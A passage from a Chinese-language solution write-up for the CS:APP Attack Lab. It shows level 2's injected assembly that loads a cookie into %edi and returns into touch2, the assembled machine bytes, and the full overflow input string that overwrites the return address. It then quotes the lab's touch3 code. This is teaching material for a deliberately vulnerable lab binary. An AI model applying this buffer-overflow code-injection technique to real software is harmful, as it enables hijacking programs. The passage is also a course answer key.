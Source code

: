接下来需要将`cookie`值传给`%rdi`，再跳转到`touch2`。`touch2`地址可通过查看汇编代码得到，结果是`0x4017ec`；跳转到touch2的思路是：**先利用`push`指令将`touch2`地址压栈，接着用`retq`从栈中弹出`touch2`地址并跳转。**

编写如下注入代码，保存到文件`inject2.s`

```assembly
movl  $0x59b997fa, %edi			# cookie值为0x59b997fa
pushq $0x4017ec					# touch2的起始地址为0x4017ec
retq
```

执行`gcc -c inject2.s`, `objdump -d inject2.o`， 将汇编文件转为二进制， 得到如下机器码：

```assembly
0000000000000000 <.text>:
   0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
   5:   68 ec 17 40 00          pushq  $0x4017ec
   a:   c3                      retq
```

综上，得到我们需要输入的字符串

```txt
bf fa 97 b9 59 68 ec 17				# 攻击代码位于地址0x5561dc78
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00				# 改写返回地址为0x5561dc78
```

此时的栈组织如下：

![AttackLab 图2 栈组织结构](C:\Users\pc\Desktop\图片\AttackLab 图2 栈组织结构.PNG)

### 第三关

`touch3`代码如下

```C
int hexmatch(unsigned val, char *sval) {
	char cbuf[110];
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval) {
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}
```
